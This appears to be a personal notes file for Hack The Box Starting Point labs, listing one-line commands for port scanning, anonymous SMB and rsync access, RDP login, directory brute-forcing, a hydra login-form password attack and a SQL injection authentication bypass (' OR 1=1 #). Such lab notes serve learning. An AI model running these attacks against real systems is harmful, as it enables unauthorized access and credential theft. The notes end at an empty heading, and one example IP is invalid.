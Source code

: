# HTB Notes

## Starting Point Tier 0

Nmap basic list
`nmap -v1 -Pn 123.456.789.0`

SMB List Shares
`smbclient --list 10.129.49.171`

SMB List Folders
`smbmap -u root -p "" -H 10.129.49.171 -r`

SMB Folder Content
`smbmap -u root -p "" -H 10.129.49.171 -R WorkShares`

SMB Download files
`smbmap -u root -p "" -H 10.129.49.171 --download 'WorkShares\James.P\flag.txt'`

### Explosion

Unix RDP Connection
`xfreerdp /v:10.1.1.1 /u:administrator`

### Preignition

GoBuster find files / directories on Web Sever ending in PHP using Wordlist
`gobuster dir --url 10.129.38.239 --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php`

Hydra Login Form attack using HTTP Form Post
`hydra -l admin -P Passwords/2020-200_most_used_passwords.txt 10.129.116.45 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong" -v`

### Mongod

Nmap scan all ports fast (does not work in nmapgui)
`nmap -p- --min-rate=1000 -sV {target_IP}`

MongoDB Shell Connect
`mongosh {target_IP}`

Mongo List Databases
`show databases`

Mongo Show Collection Content
`db.{collection_name}.find().pretty()`

### Synced

Rsync list shares
`rsync --list-only {target_IP}::`

Rsync copy file to local
`rsync 10.129.228.37::public/flag.txt ./flag.txt`

## Starting Point Tier 1

### Appointment

MySQL Injection Example Server query
`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

Injection Attack
$username = admin
$password = ' OR 1=1 #
`$sql="SELECT * FROM users WHERE username='admin' AND password='' OR 1=1 #'";`

### Sequel


